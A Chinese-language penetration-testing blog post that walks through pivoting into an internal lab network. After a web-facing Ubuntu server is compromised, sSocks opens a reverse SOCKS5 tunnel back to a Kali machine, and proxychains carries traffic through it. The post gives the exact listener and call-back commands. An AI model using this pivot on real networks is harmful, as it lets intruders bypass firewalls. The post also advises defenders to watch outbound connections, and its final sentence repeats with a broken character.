 ```yaml
---
author: 星火燎原@vxhly
title: Socks 代理反弹突破内网
categories: [networking]
tags: [Network, Liunx, Pentest]
date: 2016-11-24 14:46:22
---
```


::: tip
对于渗透测试者来说, 如何绕过防火墙的阻挡在内网展开渗透测试成为需解决的问题, 本文介绍了在夺取映射到外网的内网服务器权限后, 如何利用 Socks 代理反弹获得内网访问权限
:::
<!-- more -->

## 环境介绍

| 机子     | 系统                    | IP                                             |
|----------|-------------------------|------------------------------------------------|
| 攻击机   | `kali Liunx` | 192.168.199.130 (外网)                         |
| 目标主机 | `ubuntu-server` | 192.168.199.131 (外网)；192.168.235.143 (内网) |
| 内网主机 | `Metasploitable2-Liunx` | 192.168.235.142 (内网)                         |

## 工具介绍

### sSocks

sSocks 是一个 socks 代理工具套装, 可用来开启 socks 代理服务, 支持 socks5 验证, 支持 IPV6 和 UDP, 并提供反向 socks 代理服务, 即将远程计算机作为 socks 代理服务端, 反弹回本地, 极大方便内网的渗透测试

### 下载

[sSocks 更新地址](//sourceforge.net/projects/ssocks/)<br>
这里下载的版本为 `0.0.14` 

``` bash
wget https://nchc.dl.sourceforge.net/project/ssocks/ssocks-0.0.14.tar.gz
```

### 解压并编译

``` bash
tar -xzvf ssocks-0.0.14.tar.gz
cd ssocks-0.0.14
./configure && make
```

::: warning
注意: 编译的时候要先确定机子上有 gcc 环境, 没有的请自行安装
:::

### 功能

编译完成, 进入 sr c 目录, 会发现有 `nsocks` 、 `ssocksd` 、 `ssocks` 、 `rcsocks` , 其功能说明介绍如下: 

* **nsocks** 类似通过 Socks5 代理后的 netcat, 可用来测试 socks server
* **ssocksd** 用来开启 Socks5 代理服务
* **ssocks** 本地启用 Socks5 服务, 并反弹到另一 IP 地址
* **rcsocks** 接收反弹过来的 Socks5 服务, 并转向另一端口

## 攻击步骤

现假设已获得 `ubuntu-server` 权限, 也将 ssocks 这软件上传至该服务器（包含解压和编译）

### 执行本地监听

机子: `kali Liunx` ；IP: `192.168.199.130` 

``` bash
cd ssocks-0.0.14/src
./rcsocks -l 1088 -p 1080 -vv
```

等待远程 Socks5 服务器访问本地 1080 端口, 创建端口 1080 与本地端口 1088 的连接通道<br>

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-1.png)

### 开启 Socks5 代理服务, 反弹

机子: `ubuntu-server` ；IP: `192.168.199.131` 

``` bash
cd ssocks-0.0.14/src
./rssocks -vv -s 192.168.199.130:1080
```

启用 Socks5 服务, 反弹到 `192.168.199.130` （即 `kali Liunx` ） 的端口 1080 上<br>

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-2.png)

此时在渗透测试端 `192.168.199.130` （即 `kali Liunx` ） 可看到通道连接成功<br>

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-3.png)

### 利用 proxychains 进行 Socks5 代理

机子: `kali Liunx` ；IP: `192.168.199.130` 

#### proxychains 介绍

通过前面的步骤, Socks5 代理已创建完成了。由于在渗透测试过程中, 需要使用不同的工具程序, 而在各程序中分别配置 Socks5 代理信息较为繁琐, 而部分程序并不支持配置 Socks5 代理。为了简化这些操作, 我们可以采用 `proxychains` 。

proxychains 是一个代理客户端软件, 可以支持几乎所有程序的代理, 如 `ssh` , `telnet` , `ftp` 等。利用 `proxychains` , 程序能在代理的环境下被加载运行, 而本身不需要具备代理功能。

#### proxychains 下载

需要 git 环境, 在 `kali Liunx` 使用 `proxychains` 

``` bash
git clone https://github.com/haad/proxychains.git
```

#### 编译和安装

``` bash
cd proxychains
./configure
make && make install
```

#### 修改配置文件

使用前需要对 proxychains 进行简单配置, 打开配置文件 `/etc/proxychains.conf` 

在 `[ProxyList]` 处添加

``` bash
socks5 127.0.0.1 1088
```

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-4.png)

 配置成功后若要启动程序, 仅需要在启动程序命令前加上 `proxychains` 

### 启用浏览器 firefox

机子: `kali Liunx` ；IP: `192.168.199.130` 

``` bash
proxychains firefox
```

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-5.png)

### 访问内网机子

机子: `kali Liunx` ；IP: `192.168.235.143` 

::: warning
注意: 现在已经可以直接访问内网主机了, IP: `192.168.235.142` 
:::

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-6.png)

随便点个链接, 然后再看一眼 `ubuntu-server` 中的日志, 成功访问到内网中的页面<br>

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-7.png)

## 后记

由于系统管理员的疏忽或者业务需求所致, 防火墙一般仅对由外向内发起的数据连接进行严格判断、过滤、甚至阻断而忽略由内往外的连接。因此, 在此种情况下, 通过攻陷映射到公网的端口服务, 利用反弹便可获取内网访问权限, 给内网安全带来极大的威胁。在信息安全建设与运维过程中, 不仅要加强映射到公网的服务安全, 也要重视由内到外连接的安全威胁 � 维过程中, 不仅要加强映射到公网的服务安全, 也要重视由内到外连接的安全威胁

